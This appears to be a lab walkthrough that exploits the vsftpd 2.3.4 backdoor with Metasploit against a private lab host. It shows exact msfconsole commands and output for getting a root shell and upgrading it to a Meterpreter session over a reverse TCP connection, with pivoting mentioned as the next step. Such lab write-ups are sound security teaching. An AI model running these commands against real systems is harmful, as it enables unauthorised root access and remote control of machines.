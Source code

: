 VSFTPd 2.3.4 contains a backdoor we can exploit to achieve a shell, and since the process is running as the root user we'll also get a root shell.
We can use the metasploit module for this to automate the exploit, and we'll use our access to create a SOCKS proxy for future pivoting.
To begin, open up the Metasploit console:

```
┌──(root㉿kali)-[~]
└─# msfconsole

msf6 > 
```

We'll use metasploit to get a basic shell on the target machine with the `exploit/unix/ftp/vsftpd_234_backdoor` module,
and then upgrading our shell to a Meterpreter session:

```
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
[*] No payload configured, defaulting to cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 172.24.0.2
RHOSTS => 172.24.0.2
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] 172.24.0.2:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 172.24.0.2:21 - USER: 331 Please specify the password.
[+] 172.24.0.2:21 - Backdoor service has been spawned, handling...
[+] 172.24.0.2:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (172.24.0.1:41037 -> 172.24.0.2:6200) at 2024-07-13 20:31:33 -0400

id
uid=0(root) gid=0(root)
```

As we can see from running `id`, our shell is running as the root user.
Next, we need to upgrade our basic shell to a Meterpreter shell.
This is done by sending our basic shell to the background with (Ctrl+Z), and then upgrading the session with `sessions -u`

```
^Z
Background session 1? [y/N]  y
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > sessions -u -1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [-1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 172.24.0.1:4433 
[*] Sending stage (1017704 bytes) to 172.24.0.2
[*] Meterpreter session 2 opened (172.24.0.1:4433 -> 172.24.0.2:57840) at 2024-07-13 20:35:59 -0400
[*] Command stager progress: 100.00% (773/773 bytes)
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > sessions -i 2
[*] Starting interaction with 2...

meterpreter >
```
